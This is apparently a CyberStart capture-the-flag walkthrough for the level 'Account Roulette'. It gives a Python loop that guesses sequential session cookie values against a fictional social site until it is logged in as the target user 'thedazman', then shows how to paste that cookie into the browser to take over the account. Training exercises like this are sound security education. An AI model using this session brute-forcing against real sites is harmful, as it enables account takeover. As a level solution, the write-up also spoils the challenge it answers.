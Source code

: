 # Account Roulette
Agent 707, remember the social media website from the previous level where Bulldog gang member Darren Greggs posted that cryptic message? If we could log in as Darren we could post messages as him and confuse other gang members. Unfortunately we don't have his login details, but we're sure you can find another way to log in as him using a possible vulnerability we think exists.

We have logged in as a random test user that we created and have gone to an old message Darren posted. See if you can use that access to log in to other accounts, then check the response to see who you are logged in as, aiming to find access Darren's account (his username is thedazman).

## Steps
1. Write Python code

```python
import requests, re

url = "https://wespeektogether.com/thedazman/status/74635478354"

cookie_value = 0
while True:
    request = requests.get(url, cookies = {"speek_sess_id": str(cookie_value)})
    match = re.search("Logged in as thedazman", request.text)

    if match:
        print(cookie_value)
        break

    cookie_value += 1
```

![python to cookie login](/assets/screenshots/hq-12-AccountRoulette/step-1.png)

2. Copy the number in the output and go into *Cookies* using *Inspect*
    - Inspect > Application > Cookies > https://play.cyberstart.com

![application location](/assets/screenshots/hq-12-AccountRoulette/step-2.png)

3. Replace *speek_sess_id* cookie value with the copied number

![replace speek_sess_id](/assets/screenshots/hq-12-AccountRoulette/step-3.png)

4. Refresh the page